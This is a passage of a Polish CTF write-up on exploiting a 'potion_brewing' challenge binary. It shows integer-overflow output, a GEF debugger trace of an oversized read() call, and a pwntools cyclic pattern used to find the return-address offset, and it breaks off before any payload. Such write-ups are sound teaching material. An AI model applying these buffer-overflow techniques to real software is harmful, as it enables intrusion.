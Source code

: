 ```
> 1 <
ingredient: A            
mana boost: -2147483447
> 2 <
ingredient: B
mana boost: -2147483447
> 3 <
ingredient: C
mana boost: 0
> 4 <
ingredient: D
mana boost: 0
```

```
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x401344 <cast_spell+46>  lea    rax, [rbp-0xd0]
     0x40134b <cast_spell+53>  mov    rsi, rax
     0x40134e <cast_spell+56>  mov    edi, 0x0
 →   0x401353 <cast_spell+61>  call   0x401070 <read@plt>
   ↳    0x401070 <read@plt+0>     jmp    QWORD PTR [rip+0x2faa]        # 0x404020 <read@got.plt>
        0x401076 <read@plt+6>     push   0x4
        0x40107b <read@plt+11>    jmp    0x401020
        0x401080 <open@plt+0>     jmp    QWORD PTR [rip+0x2fa2]        # 0x404028 <open@got.plt>
        0x401086 <open@plt+6>     push   0x5
        0x40108b <open@plt+11>    jmp    0x401020
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────── arguments (guessed) ────
read@plt (
   $rdi = 0x0000000000000000,
   $rsi = 0x00007fffffffdb30 → 0x0000003000000008,
   $rdx = 0x0000000000000192
)
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "potion_brewing_", stopped 0x401353 in cast_spell (), reason: SINGLE STEP
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x401353 → cast_spell()
[#1] 0x40145e → main()
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  
```

Wartość `rdx` = 0x192 = 402

Teraz wystarczy tylko znaleźć offset potrzebny do nadpisania return address. Możemy to prosto zrobić za pomocą cyklu de Bruijna.

```console
$ pwn cyclic 400

aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaaczaadbaadcaaddaadeaadfaadgaadhaadiaadjaadkaadlaadmaadnaadoaadpaadqaadraadsaadtaaduaadvaadwaadxaadyaad
```

